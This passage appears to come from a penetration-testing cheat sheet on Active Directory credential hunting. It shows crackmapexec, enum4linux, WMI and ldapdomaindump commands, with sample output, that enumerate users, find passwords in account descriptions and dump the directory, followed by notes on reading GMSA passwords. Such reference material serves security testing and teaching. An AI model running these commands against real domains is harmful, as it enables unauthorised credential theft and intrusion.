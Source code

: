 > The number of times the user tried to log on to the account using an incorrect password. A value of 0 indicates that the value is unknown.

```powershell
$ crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --users
LDAP        10.0.2.11       389    dc01       Guest      badpwdcount: 0 pwdLastSet: <never>
LDAP        10.0.2.11       389    dc01       krbtgt     badpwdcount: 0 pwdLastSet: <never>
```


### Password in AD User comment

```powershell
$ crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 -M get-desc-users
GET-DESC... 10.0.2.11       389    dc01    [+] Found following users: 
GET-DESC... 10.0.2.11       389    dc01    User: Guest description: Built-in account for guest access to the computer/domain
GET-DESC... 10.0.2.11       389    dc01    User: krbtgt description: Key Distribution Center Service Account
```

There are 3-4 fields that seem to be common in most AD schemas: `UserPassword`, `UnixUserPassword`, `unicodePwd` and `msSFU30Password`.

```powershell
enum4linux | grep -i desc

Get-WmiObject -Class Win32_UserAccount -Filter "Domain='COMPANYDOMAIN' AND Disabled='False'" | Select Name, Domain, Status, LocalAccount, AccountType, Lockout, PasswordRequired,PasswordChangeable, Description, SID
```

or dump the Active Directory and `grep` the content.

```powershell
ldapdomaindump -u 'DOMAIN\john' -p MyP@ssW0rd 10.10.10.10 -o ~/Documents/AD_DUMP/
```

### Reading GMSA Password

> User accounts created to be used as service accounts rarely have their password changed. Group Managed Service Accounts (GMSAs) provide a better approach (starting in the Windows 2012 timeframe). The password is managed by AD and automatically changed.

#### GMSA Attributes in the Active Directory 
* `msDS-GroupMSAMembership` (`PrincipalsAllowedToRetrieveManagedPassword`) - stores the security principals that can access the GMSA password.
* `msds-ManagedPassword` - This attribute contains a BLOB with password information for group-managed service accounts.
* `msDS-ManagedPasswordId` - This constructed attribute contains the key identifier for the current managed password data for a group MSA.
* `msDS-ManagedPasswordInterval` - This attribute is used to retrieve the number of days before a managed password is automatically changed for a group MSA.


#### Extract NT hash from the Active Directory

